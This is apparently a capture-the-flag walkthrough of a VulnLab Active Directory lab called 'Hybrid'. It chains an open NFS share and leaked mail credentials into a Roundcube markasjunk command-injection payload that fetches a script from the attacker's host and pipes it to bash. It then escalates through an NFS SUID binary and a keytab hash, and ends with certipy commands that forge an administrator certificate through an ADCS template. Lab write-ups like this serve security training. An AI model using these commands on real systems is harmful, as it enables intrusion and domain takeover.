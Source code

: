 # Hybrid (chain) (easy)

## port scan

mail01.hybrid.vl

![](walkthrough_20240410131406696.png)

dc01.hybrid.vl

![](walkthrough_20240410131510871.png)


## service enumeration

mail01 have web service called Roundcube Webmail 

![](walkthrough_20240410131624197.png)

mail01 also have nfs service

![](walkthrough_20240410131941684.png)


## nfs discover

`/opt/share` found on nfs share

![](walkthrough_20240410132024252.png)

we can use mount command without permission to mount remote folder

```bash
 sudo mount -t nfs 10.10.217.118:/opt/share /home/sh4n4c1/lab/vulnlab/hybrid/mnt/
```

![](walkthrough_20240410132254311.png)

![](walkthrough_20240410133006274.png)

there have some cred in `dovecot-users` file

![](walkthrough_20240410133243712.png)

we can use admin cred login roundcubes

![](walkthrough_20240410133357170.png)

admin say that he enable junk filter plugin on roundcubes 

![](walkthrough_20240410133834655.png)

## markasjunk exploit 

we can see detail on `about`. The plugin called `markasjunk`

![](walkthrough_20240410133914679.png)

seems we have RCE

![](walkthrough_20240410133949273.png)

https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/

![](walkthrough_20240410134347063.png)

so my payload is 

```
admin&curl${IFS}10.8.1.167|bash&@roundcube.com
```

add reverse shell into index.html. and then open webserver, change admin email address on setting. 

![](walkthrough_20240410134833530.png)

last step, click `Junk`

![](walkthrough_20240410134745192.png)

we have shell!

![](walkthrough_20240410134803852.png)

## login as peter.turner

since we mount mail01 /opt/share, we can upload suid binary, but 
 /etc/exports config disable it
 
 https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
 
![](walkthrough_20240410142344960.png) 

but we upload suid same as peter.tunrner user id

![](walkthrough_20240410142553350.png)

change /etc/login.defs MAX uid

![](walkthrough_20240410142952238.png)

![](walkthrough_20240410144608726.png)

![](walkthrough_20240410144658561.png)

download bash from mail01, upload it to mnt folder and `chmod +s /mnt/vulnlab/bash`


![](walkthrough_20240410151952009.png)

we are now peter.turner user

![](walkthrough_20240410152043055.png)


there have a passwords.kdbx file 

![](walkthrough_20240410152228466.png)

the password is found in `dovecot-users` (nfs dump)

![](walkthrough_20240410152516135.png)


![](walkthrough_20240410152542725.png)

work!

![](walkthrough_20240410152734976.png)

## adcs attack

just like vulnlab's Retro box, we found a Vulnerabilities template. but only `Domain Computers` can enroll.

![](walkthrough_20240410154431640.png)

![](walkthrough_20240410154449503.png)

now we need a computer cred, looks like we can run any command as root on mail01

![](walkthrough_20240410155021578.png)

download /etc/krb5.keytab and extract mail01$ hash


![](walkthrough_20240410155319886.png)

```bash
certipy-ad req -u 'mail01$'@hybrid.vl -hashes ':$hash' -c 'hybrid-DC01-CA' -target "$t1" -template 'HybridComputers' -upn 'adm
inistrator' -key-size 4096


certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip "$t1"
```

![](walkthrough_20240410155834243.png)

![](walkthrough_20240410160626560.png)